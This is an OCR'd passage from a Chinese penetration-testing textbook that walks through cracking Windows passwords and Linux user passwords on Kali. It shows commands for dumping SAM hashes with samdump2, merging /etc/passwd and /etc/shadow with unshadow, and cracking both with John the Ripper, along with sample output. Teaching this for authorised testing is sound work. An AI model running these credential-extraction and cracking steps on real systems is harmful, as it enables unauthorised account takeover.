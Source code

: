 执行以上命令后，没有任何输出信息。

（3）切换目录，进入到 Windows SAM 文件的位置。执行命令如下所示：

```
root@kali:~# cd /sda1/WINDOWS/system32/config/ 
```

在该目录中，可以看到 SAM 文件。

（4）使用 SamDump2 提取 SAM 文件。执行命令如下所示：

```
root@kali:/sda1/WINDOWS/system32/config# samdump2 SAM system > /root/hash.txt
samdump2 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it
Root Key : SAM 
```

从输出信息中可以看到提取了 SAM 文件。将该文件的内容重定向到了/root/hash.txt 文件中。

（5）运行 john 命令，实现密码攻击。执行命令如下所示：

```
root@kali:/sda1/WINDOWS/system32/config# /usr/sbin/john /root/hash.txt --format=nt
Created directory: /root/.john
Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
   (Guest)
guesses: 4 time: 0:00:03:13 0.09% (3) (ETA: Mon May 12 06:46:42 2014) c/s: 152605K trying: 2KRIN.P - 2KRIDY8
guesses: 4 time: 0:00:04:26 0.13% (3) (ETA: Mon May 12 04:02:53 2014) c/s: 152912K trying: GR0KUHI - GR0KDN1
guesses: 4 time: 0:00:04:27 0.13% (3) (ETA: Mon May 12 04:15:42 2014) c/s: 152924K trying: HKCUUHT - HKCUGDS 
```

### 8.6.2 破解 Linux 用户密码

破解 Linux 的密码基本上和破解 Windows 密码的方法非常类似，在该过程中只有一点不同。Linux 系统没有使用 SAM 文件夹来保存密码散列。Linux 系统将加密的密码散列包含在一个叫做 shadow 的文件里，该文件的绝对路径为/etc/shadow。

不过，在使用 John the Ripper 破解/etc/shadow 文件之前，还需要/etc/passwd 文件。这和提取 Windows 密码散列需要 system 文件和 SAM 文件是一样的道理。John the Ripper 自带了一个功能，它可以将 shadow 和 passwd 文件结合在一起，这样就可以使用该工具破解 Linux 系统的用户密码。本小节将介绍破解 Linux 用户密码的方法。

使用 John the Ripper 工具破解 Linux 用户密码。具体操作步骤如下所示。

（1）使用 unshadow 提取密码散列。执行命令如下所示：

```
root@kali:~# unshadow /etc/passwd /etc/shadow > /tmp/linux_hashes.txt 
```

执行以上命令后，会将/etc/passwd/文件与/etc/shadow/文件结合在一起，生成一个叫做 linux_hashes.txt 的文件，保存在/tmp/目录中。

（2）破解 Linux 用户密码。执行命令如下所示：

```
root@kali:~# john --format=crypt --show /tmp/linux_hashes.txt
root:123456:0:0:root:/root:/bin/bash
bob:123456:1000:1001::/home/bob:/bin/sh
alice:123456:1001:1002::/home/alice:/bin/sh
3 password hashes cracked, 0 left 
```
